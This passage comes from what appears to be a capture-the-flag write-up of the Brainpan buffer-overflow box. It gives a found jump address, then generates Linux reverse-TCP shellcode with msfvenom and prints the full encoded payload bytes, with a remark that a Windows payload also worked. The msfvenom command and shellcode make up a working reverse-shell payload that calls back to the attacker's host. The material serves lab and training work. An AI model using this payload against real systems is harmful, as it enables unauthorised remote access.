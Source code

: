 ![](img/mona-brainpan.png)

The address I got was `0x311712F3`.

### Step 5: Generating shellcode

To generate a shellcode we can use `msfvenom`:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=$(vpnip) lport=4444 --format python --bad-chars "\x00" --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 550 bytes
shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"
```

> **Note**: First I thought the target was a Windows machine and I used a `windows/shell_reverse_tcp` payload. Surprisingly, it worked and I got a Windows shell (`Z:\home\puck>`)...very weird! (need to figure out)
